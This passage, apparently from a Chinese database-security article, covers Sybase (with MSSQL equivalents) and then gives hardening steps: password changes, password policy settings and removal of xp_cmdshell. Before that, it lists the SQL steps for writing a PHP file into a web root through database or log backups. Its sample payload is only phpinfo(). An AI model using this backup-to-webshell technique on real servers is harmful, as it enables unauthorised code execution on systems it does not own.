 前提条件：

1、备份服务打开

2、备份服务允许远程访问

3、有数据库权限（宿主权限）+磁盘写权限

步骤：

```
1、create table cmd(a image)—

2、insert into cmd(a) values ('<?php phpinfo();?>')—

3、dump database test to ‘C:\wamp\www\1.php’ 【全备份】
（对应MSSQL为：backup database 库名 to disk= 'C:\wamp\www\1.php ' WITH DIFFERENTIAL,FORMAT;--）
   dump TRANSACTION test to ‘C:\wamp\www\1.php’ 【LOG备份】
（对应MSSQL为：backup log 库名 to disk='d:\www\xxx\test.asp'--）

注：使用dump TRANSACTION时要求数据文件和日志文件不能存放在同一设备中。

4、drop table cmd--

```

![enter image description here](http://drops.javaweb.org/uploads/images/2a980476176fa2b17a629bf07cd18c9be98657c0.jpg)

### 加固与防范

#### 口令

```
sp_password  “原密码”, “新密码”,用户名

```

例如将sa用户的密码由空改为123456： sp_password NULL,”123456”,sa

```
sp_configure “minimum password length”,8    ---密码最短长度

sp_configure “check password for digit”,1   ---至少包含一个数字

sp_configure “systemwide password expiration”,90   ---口令有效时长

sp_configure “maximum failed logins”,5   ---设置口令错误锁定阀值

```

删除扩展存储过程xp_cmdshell， 并删 除 sybsyesp.dll 

```
exec  sp_dropextendedproc  xp_cmdshell

```
